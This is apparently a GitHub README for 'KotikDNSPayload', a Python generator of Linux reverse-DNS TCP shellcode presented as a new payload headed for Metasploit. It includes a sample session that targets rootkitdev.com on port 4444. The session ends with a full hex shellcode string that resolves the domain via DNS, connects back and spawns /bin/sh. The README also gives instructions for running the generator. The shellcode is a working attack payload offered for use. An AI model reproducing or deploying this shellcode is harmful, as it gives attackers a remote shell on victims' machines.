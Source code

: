 # KotikDNSPayload
ReverseDnsPayload -- The First and Only In The World! 

## Currenty working on uploading this to Metapsloit Stay Tuned!




![xitriykotik](https://github.com/ApertureSecurity/KotikDNSPayload/blob/master/HitriyKotik.png)


`
Hitriy Kotik (Tricky Cat) is my name and I like dealing in shellcode. I have something special in the market place for you! 
 !!!!! A Reverse DNS TCP Payload For Linux !!!!! 
 Tell Me , a few things and I will generate the shellcode for you!
[+] Tell Me The Domain You wish To Connect Back To : rootkitdev.com
[+] Tell Me The Port   You Wish To Connect Back To : 4444
[+] I Am Making Your PayLoad Right Now....
[+] ASM Created Successfully....

\x6a\x66\x58\x6a\x01\x5b\x31\xc9\x51\x6a\x02\x6a\x02\x89\xe1\xcd\x80\x50\x68\x08\x08\x08\x08\x31\xd2\xb6\x35\x66\x52\x66\x6a\x02\x89\xe1\x6a\x10\x51\x50\x89\xe1\x89\xc6\x31\xc0\xb0\x66\x80\xc3\x02\xcd\x80\x31\xc0\xb0\x66\x6a\x00\x68\x00\x01\x00\x01\x68\x63\x6f\x6d\x00\x68\x64\x65\x76\x03\x68\x74\x6b\x69\x74\x68\x0a\x72\x6f\x6f\x6a\x00\x68\x00\x01\x00\x00\x68\xaa\xaa\x01\x00\x89\xe2\x31\xc9\x51\x6a\x40\x52\x56\x89\xe1\x31\xdb\xb3\x09\xcd\x80\xb8\x03\x00\x00\x00\xbb\x03\x00\x00\x00\x89\xe1\xba\x64\x00\x00\x00\xcd\x80\x01\xc4\x83\xec\x04\x8b\x04\x24\x50\x31\xd2\x6a\x66\x58\x6a\x01\x5b\x52\x53\x5a\x6a\x02\x89\xe1\xcd\x80\x89\xc6\x6a\x66\x58\x6a\x03\x5b\x52\x66\x68\x5c\x11\x66\x6a\x02\x89\xe7\x6a\x10\x57\x56\x89\xe1\xcd\x80\x89\xf3\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\xbc\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xd1\xb0\x0b\xcd\x80

`







#To Run:
simply run 
`
python hitriykotik.py 

`

and you'll be greeted by the Cat above and he will ask you a couple of questions and use nasm and objdump to give you yourshellcode.

# Requirements
`
Linux is desireable, but not required.
0. python2.7
1. nasm
2. objectdump


`